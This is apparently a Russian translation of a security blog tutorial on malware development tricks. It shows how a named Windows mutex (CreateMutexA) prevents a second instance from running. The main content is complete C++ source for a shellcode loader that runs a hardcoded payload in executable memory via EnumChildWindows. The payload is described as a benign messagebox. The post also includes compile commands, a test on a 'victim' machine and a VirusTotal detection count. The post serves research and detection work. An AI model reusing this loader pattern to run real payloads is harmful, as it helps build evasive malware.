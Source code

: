 \newpage
\subsection{39. трюки разработки вредоносного ПО. Mutex. Пример на C++.}

﷽

![инъекция](./images/84/2023-01-04_12-50.png){width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: предотвращение повторного запуска с помощью мьютексов.     

Иногда при разработке вредоносного ПО для максимальной скрытности необходимо, чтобы программа запускалась только один раз. Для этого, согласно [документации MSDN](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), мы можем использовать мьютексы.

### мьютекс

Для простоты можно использовать функцию `CreateMutexA` из Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### практический пример

В самой простой реализации можно использовать эту функцию следующим образом:    

Создать мьютекс с определённым именем, чтобы несколько экземпляров могли его обнаружить:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

Проверить, существует ли мьютекс, и выйти из приложения, если он уже есть:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // если этот процесс создал мьютекс, выходим из приложения
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

В противном случае выполняем вредоносную логику и закрываем мьютекс после завершения:    

```cpp
//...
// вредоносная логика
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// очистка
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

Таким образом, полный исходный код выглядит следующим образом:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Как можно заметить, я использую запуск шеллкода [через EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). Также, как обычно, использую полезную нагрузку `meow-meow` с messagebox.     

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![инъекция](./images/84/2023-01-04_12-39.png){width="80%"}    

Затем переносим на машину жертвы (в моём случае `Windows 10 x64`) и запускаем:    

```powershell
.\hack.exe
```

![инъекция](./images/84/2023-01-04_12-38.png){width="80%"}    

Затем пытаемся запустить этот "вредонос" снова из другого терминала Powershell:    

![инъекция](./images/84/2023-01-04_12-41.png){width="80%"}    

Как можно заметить, ничего не запустилось, у нас есть только одно окно messagebox.    

Для проверки корректности можно добавить в код некоторые отладочные сообщения:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Затем повторяем наши шаги снова:    

![инъекция](./images/84/2023-01-04_12-49.png){width="80%"}    

Как можно заметить, всё сработало идеально!    

Давайте загрузим `hack.exe` на VirusTotal:    

![инъекция](./images/84/2023-01-04_13-44.png){width="80%"}    

**Итак, 17 из 62 антивирусных движков определили наш файл как вредоносный.**     

[https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details](https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details)      

Этот трюк, например, используется такими злоумышленниками, как [Conti ransomware](https://attack.mitre.org/software/S0575/), [Hellokitty ransomware](https://attack.mitre.org/software/S0617/) и [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) в реальной среде.    

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.    

[Conti](https://attack.mitre.org/software/S0575/)      
[Hellokitty](https://attack.mitre.org/software/S0617/)      
[Hellokitty source code](https://github.com/Black-Hell-Team/Hello-Kitty)     
[AsyncRAT source code](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)    
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2023-01-04-malware-tricks-26)     
